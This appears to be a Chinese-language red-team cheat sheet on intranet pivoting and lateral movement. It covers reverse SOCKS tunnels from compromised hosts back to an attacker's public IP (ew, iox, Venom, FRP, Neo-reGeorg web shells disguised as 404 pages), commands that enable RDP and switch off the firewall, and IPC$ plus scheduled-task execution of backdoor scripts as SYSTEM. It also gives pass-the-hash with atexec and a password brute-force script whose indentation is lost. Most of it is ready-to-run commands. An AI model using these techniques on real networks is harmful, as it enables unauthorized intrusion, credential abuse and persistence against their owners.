        - 目标机A执行

            `./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 192.168.1.1 -g 9999`
            1.1.1.1 为攻击机公网IP,192.168.1.1 为目标机B的内网IP

        - 访问攻击机的公网1080即可使用B主机提供的socks5代理

- 参数说明

    - 目前工具提供六种链路状态,可通过 -s 参数进行选定,分别为

        ssocksd   rcsocks   rssocks
        lcx_slave lcx_tran  lcx_listen

        其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供,分别对应正向与反向socks代理

        其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路

    - lcx 类别管道

        lcx_slave  该管道一侧通过反弹方式连接代理请求方,另一侧连接代理提供主机
        lcx_tran   该管道,通过监听本地端口接收代理请求,并转交给代理提供主机
        lcx_listen 该管道,通过监听本地端口接收数据,并将其转交给目标网络回连的代理提供主机

        通过组合lcx类别管道的特性,可以实现多层内网环境下的渗透测试。

        - 下面是一个三级跳的本地测试例子

            ```
            ./ew -s rcsocks -l 1080 -e 8888
            ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
            ./ew -s lcx_listen -l 9999 -e 7777
            ./ew -s rssocks -d 127.0.0.1 -e 7777
            ```

            数据流向为   IE -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks

    - 程序中的超时机制

        1.为了减少网络资源的消耗,程序中添加了超时机制,默认时间为10000毫秒(10秒),用户可以通过追加 -t 参数来调整这个值,单位为毫秒;在多级级联功能中,超时机制将以隧道中最短的时间为默认值
        2.单纯从设计原理上讲,多级级联的三种状态可以转发任意以TCP为基础的通讯服务,包括远程桌面／web服务 等


### iox

- 项目地址

    https://github.com/EddieIvan01/iox

- 用法

    -l/--local意为监听本地端口；-r/--remote意为连接远端主机

- 示例

    - 把内网3389端口转发到公网

        - 被控主机

            `./iox fwd -r 192.168.0.100:3389 -r *1.1.1.1:8888 -k 656565`

        - 攻击主机

            `./iox fwd -l *8888 -l 33890 -k 656565`

        然后连接攻击机(1.1.1.1)的 33890 端口即可

    - socks5代理

        - 在目标机器上开启Socks5服务(目标机直接暴露在公网上)

            `./iox proxy -l 1080`

    - 内网 sock5 代理

        - 在攻击机上做转发

            `./iox proxy -l 8888 -l 1080`

        - 在目标机上执行如下命令,把目标机的8888端口对接起来建立链接

            `./iox proxy -r 1.1.1.1:8888`

            1.1.1.1 为攻击机的公网ip


### Venom

- 项目地址

    https://github.com/Dliv3/Venom

- 示例

    - vps 执行

        `./admin.exe -lport 6666`

    - 目标机执行

        `./agent.exe -rhost <vps-ip> -rport 6666`

    - vps 接收到连接后执行

        ```
        show
        goto 1
        socks 6667
        ```

    - 本机使用 proxifier 配置代理即可访问目标内网资源

        `<vps-ip>:6667`


## LOL转发技巧

### Windows

#### netsh

- 将本地的 51167 端口转发至 112.2.34.11:13522

    `netsh interface portproxy add v4tov4 listenport=51167 connectaddress=112.2.34.11 connectport=13522`

- 新建一个端口映射,将外网网卡1.1.1.1的1080端口和192.168.138.138的3389端口做个映射

    `netsh interface portproxy add v4tov4 listenaddress=1.1.1.1 listenport=1080 connectaddress=192.168.138.138 connectport=3389`

- 删除 51167 端口的转发

    `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=51167`

- 查看所有转发

    `netsh interface portproxy show all`

### Linux

#### ssh 隧道

- 示例

    - kali机

        ```bash
        ssh -D 8080 root@172.16.40.10
        在8080端口起一个socks代理
        nano /etc/proxychains.conf
        socks4 127.0.0.1 8080
        proxychains nmap -p 3389 -sT -Pn 172.16.40.18-22 --open
        proxychains rdesktop 172.16.40.20
        ```


## 命令行开启3389

- XP&2003 开启 3389

    `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

    或者

    `REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`

- WMIC 开启 3389

    `wmic /namespace:\\root\CIMV2\TerminalServices PATH Win32_TerminalServiceSetting WHERE (__CLASS !="") CALL SetAllowTSConnections 1`

- PowerShell 开启 3389

    - Enable RDP(开启rdp)

        `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0`

    - Allow RDP in firewall(允许 rdp 通过防火墙)

        `Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true`

    - Enable secure RDP authentication(开启 rdp 安全认证)

        `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1`

    - Enable Remote Desktop(开启rdp)

        `(Get-WmiObject Win32_TerminalServiceSetting -Namespace root\cimv2\TerminalServices).SetAllowTsConnections(1,1)`
        `(Get-WmiObject -Class "Win32_TSGeneralSetting" -Namespace root\cimv2\TerminalServices -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`

    - Enable the firewall rule(重新打开 rdp 防火墙)

        `Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

- 查看 3389 端口是否开启

    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections`         如果是0x0则开启

- 更改终端端口为 2008(十六进制为:0x7d8)

    - `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`

    或者:

    - `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

- 查看 3389 端口是否更改

    `REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber`         出来的结果是十六进制

- 关闭防火墙命令

    `netsh advfirewall set allprofiles state off`

- 取消 xp&2003 系统防火墙对终端服务的限制及 IP 连接的限制

    ```cmd
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f
    ```


---

# windows netsh设置代理服务器/端口转发

可以查看存在的转发
netsh interface portproxy show all

添加一个IPV4到IPV4的端口映射
```
netsh interface portproxy add v4tov4 listenport=22 listenaddress=192.168.91.133 connectaddress=ip connectport=port

netsh interface portproxy add v4tov4 listenport=56789 connectaddress=127.0.0.1 connectport=3389

netsh interface portproxy add v4tov4 listenport=8081 connectaddress=192.168.91.139 connectport=8080


```

删除指定转发端口
```
netsh interface portproxy delete v4tov4 listenport=port
```

例如，将连接从本地端口5555转发至远程地址157.166.226.25（CNN网站）：
```
netsh interface portproxy add v4tov4 listenport=3389 connectaddress=192.168.91.133 connectport=3389

netsh interface portproxy add v4tov4 listenport=8848 connectaddress=192.168.91.129 connectport=8848

```

清除所有当前的端口转发规则：
```
netsh interface portproxy reset
```

现在，如果你在浏览器中访问http://localhost:5555/，则将打开CNN网站的主页。因此，尽管浏览器对本地计算机进行了寻址，但它仍会打开一个远程页面。
```
netsh interface portproxy add v4tov4 listenport=5555 connectport=80 connectaddress= 157.166.226.25 protocol=tcp
```

# FRP

配置 FRP 代理链，上传 FRP 文件夹，这里需要注意的是4个文件，分别是frpc、frpc.ini和frps、frps.ini，前者两个文件是客户端所关注文件，后者两个文件是服务端所关注两个文件。

但在启动前，我们需要先修改配置文件，我们以配置“Windows 远程桌面控制”以及“群晖 NAS 管理界面”为例。假设你的 FRP 服务端所在的 VPS 公网 IP 为 1.2.3.4， 而客户端是 Win 电脑，我们来修改 frpc.ini 配置文件：
```
[common]
# server_addr 为 FRP 服务端 (VPS 服务器) 的公网 IP
server_addr = 1.2.3.4
server_port = 7000

[DSM]
type = tcp
local_ip = 192.168.1.40 #群晖 NAS 在局域网中的内网 IP
local_port = 5000
remote_port = 7001

[RDP]
type = tcp
local_ip = 192.168.1.30 #电脑在局域网中的内网 IP (如是本机，也可使用 127.0.0.1)
local_port = 3389
remote_port = 7002
```

---
**启动 FRP 服务端**

```
./frps -c ./frps.ini
```
如服务器使用 Win 系统，假设解压到 c:\frp 文件夹，那么只需这样启动：

```
c:\frp\frps.exe -c c:\frp\frps.ini
```


---

**启动 FRP 客户端**
假设你已将 Frp 的客户端解压缩到 c:\frp 目录中，那么启动 Frp 客户端的命令就是：
```
c:\frp\frpc.exe -c c:\frp\frpc.ini
```

**Linux 启动 Frp 客户端命令**

```
./frpc -c ./frpc.ini
```

启动之后看到 “`start proxy success`”字样就表示启动成功了。


### Neo-reGeorg

项目地址:   https://github.com/L-codes/Neo-reGeorg

- 示例

    - 生成tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器

        python3 neoreg.py generate -k password

    -  使用 neoreg.py 连接 WEB 服务器,在本地建立 socks5 代理

        python3 neoreg.py -k password -u http://xx/tunnel.php

    - 高阶用法

        - 支持生成的服务端,默认直接请求响应指定的页面内容(如伪装的404页面)

            python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
            python neoreg.py -k <you_password> -u <server_url> --skip

        - 如服务端 WEB,需要设置代理才能访问

            python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080

        - 如需 Authorization 认证和定制的 Header 或 Cookie

            python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"

        - 需要分散请求,可上传到多个路径上,如内存马

            python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...

        - 开启内网转发,应对负载均衡

            python neoreg.py -k <you_password> -u <url> -r <redirect_url>

        - 更多关于性能和稳定性的参数设置参考 -h 帮助信息

            - 生成服务端脚本

                python neoreg.py generate -h

            - 连接服务端

                python neoreg.py -h


---

**案例1-横向渗透明文传递at&schtasks**

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？这里仅介绍at&schtasks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
获取到某域主机权限->minikatz得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典-》尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令
利用流程
1. 建立IPC链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除IPC链接

```BASH
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.bat 1.bat  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.bat /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
```
### 建立IPC常见的错误代码


```
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```
**建立IPC失败的原因**
```
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误
```


**[at] & [schtasks]**
```bash
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.21\c$  #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat    #添加计划任务

#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其C盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除adduser任务

#案例2-横向渗透明文HASH传递atexec-impacket
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

**案例3-横向渗透明文HASH传递批量利用-综合**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版
```

**案例4-横向渗透明文HASH传递批量利用-升级版**

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜？
```
net use \\192.168.3.32\ipc$ admin!@#45 /user:god\dbadmin

#pip install pyinstaller
#pyinstaller -Ffuck_neiwang_001.py生成可执行EXE
```
使用该脚本去爆破用户密码
```PY
import os,time
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.31',
'192.168.3.33'
}

users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
passs={
    # 输入抓取的密码hash
'admin',
'admin!@#45',
'Admin12345'
}

for ip in ips:
for user in users:
for mima in passs:
exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
print('--->'+exec+'<---')
os.system(exec)
time.sleep(1)
```


